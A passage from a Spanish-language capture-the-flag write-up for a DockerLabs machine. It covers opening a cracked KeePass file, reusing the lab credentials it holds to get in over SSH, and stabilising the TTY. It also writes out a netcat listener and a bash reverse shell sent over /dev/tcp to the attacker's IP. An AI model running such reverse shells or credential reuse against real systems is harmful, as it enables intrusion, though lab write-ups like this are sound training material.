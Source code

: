 Encontramos la contraseña -> **password1**
Ahora ya lo podemos abrir:

```
keepass2 penguin.kdbx
```

![Pasted image 20240413213256](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f4f16794-e0f2-489d-9cdd-a7eb0643d62e)

Dentro del gestor de contraseñas vemos un username y una contraseña.

Username -> **pinguino**
Contraseña -> **pinguinomaravilloso123** (podemos copiarla directamente del gestor de contraseñas)

Vamos a utilizar estas credenciales para intentar entrar a la base de datos mysql, puerto 3306. No nos funciona. Lo probamos en el SSH y tampoco nos funciona.
Ahora probamos con **penguin** que es el grupo al que pertenece el usuario pinguino según el gestor de contraseña y logramos entrar por SSH con las credenciales: **penguin:pinguinomaravilloso123**

```shell
ssh penguin@172.17.0.2
(ponemos la contraseña)
```

Estamos dentro.

----------------------
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.39/443 0>&1" 
```

(Siendo la 192.168.1.39 mi IP de la máquina atacante)

---------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```
